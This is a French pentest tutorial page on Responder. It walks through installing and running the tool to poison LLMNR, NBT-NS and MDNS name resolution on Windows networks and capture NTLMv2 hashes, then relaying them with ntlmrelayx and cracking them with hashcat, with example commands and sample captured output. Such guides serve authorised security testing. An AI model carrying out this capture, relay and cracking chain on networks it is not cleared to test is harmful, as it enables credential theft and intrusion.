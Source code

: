# Responder

### **Responder - Guide Complet pour Capturer les Identifiants sur un Réseau Windows**

***

⚠️ **Avertissement** : Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

***

### **Introduction**

**Responder** est un outil de capture d’identifiants sur des réseaux Windows. Il exploite les failles des protocoles **LLMNR (Link-Local Multicast Name Resolution)**, **NBT-NS (NetBIOS Name Service)**, et **MDNS (Multicast DNS)** pour répondre aux requêtes de résolution de noms de domaine des machines clientes. Responder peut capturer des hash NTLMv1/v2 ou, dans certains cas, des mots de passe en clair. Cet outil est souvent utilisé dans les pentests pour évaluer la sécurité des réseaux internes.

***

### **🚀 Étape 1 : Installation de Responder**

**1.1 Pré-requis**

* Un système Linux (Kali Linux, Parrot OS, ou une distribution similaire).
* Les permissions root pour exécuter Responder.

**1.2 Installation**

1.  Si Responder n'est pas installé par défaut, téléchargez-le depuis son dépôt GitHub :

    ```bash
    git clone https://github.com/lgandx/Responder.git
    cd Responder
    ```
2.  Vérifiez l’installation en lançant :

    ```bash
    python3 Responder.py -h
    ```

***

### **🛠️ Étape 2 : Utilisation de Base**

**2.1 Identifier l’Interface Réseau**

Listez vos interfaces réseau avec la commande suivante :

```bash
ifconfig
```

Notez le nom de l’interface connectée au réseau cible (ex. : `eth0` ou `wlan0`).

***

**2.2 Lancer Responder**

Pour capturer des hash NTLM et répondre aux requêtes réseau :

```bash
python3 Responder.py -I <interface>
```

**Exemple** :

```bash
python3 Responder.py -I eth0
```

**Explications :**

* `-I <interface>` : Spécifie l'interface réseau à surveiller.

***

**2.3 Résultat Attendu**

Lorsque des machines envoient des requêtes de résolution, Responder intercepte les hash NTLM :

```ruby
[+] NTLMv2-SSP Hash Captured
192.168.1.5 - Administrator::WORKGROUP:aa1b2c3d4e5f6...
```

***

### **🔍 Étape 3 : Fonctionnalités Avancées**

**3.1 Modifier les Modules Actifs**

Responder utilise plusieurs modules (SMB, HTTP, FTP, etc.) pour répondre aux requêtes. Vous pouvez les activer ou les désactiver dans le fichier `Responder.conf`.

1.  Ouvrez le fichier de configuration :

    ```bash
    nano Responder.conf
    ```
2.  Modifiez les lignes pour activer ou désactiver des services :

    ```
    SMB = On
    HTTP = Off
    FTP = Off
    ```

**3.2 Combiner avec NTLMRelayX**

Pour exploiter les hash capturés, combinez Responder avec **NTLMRelayX** :

1. Configurez Responder pour capturer les hash.
2.  Lancez NTLMRelayX pour les relayer :

    ```bash
    python3 ntlmrelayx.py -tf targets.txt -smb2support
    ```
3. Listez les cibles à relayer dans `targets.txt`.

***

### **📖 Bonnes Pratiques**

1. **Obtenir des Autorisations**
   * Avant d’exécuter Responder, assurez-vous d’avoir une autorisation écrite pour éviter des implications légales.
2. **Limiter l’Impact**
   * Utilisez Responder uniquement dans des segments de réseau spécifiques.
   * Désactivez les modules inutiles pour réduire l’empreinte.
3. **Analyser les Résultats**
   *   Passez en revue les hash capturés et utilisez des outils comme **hashcat** ou **John the Ripper** pour tenter de les décrypter :

       ```bash
       hashcat -m 5600 hash.txt wordlist.txt
       ```

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
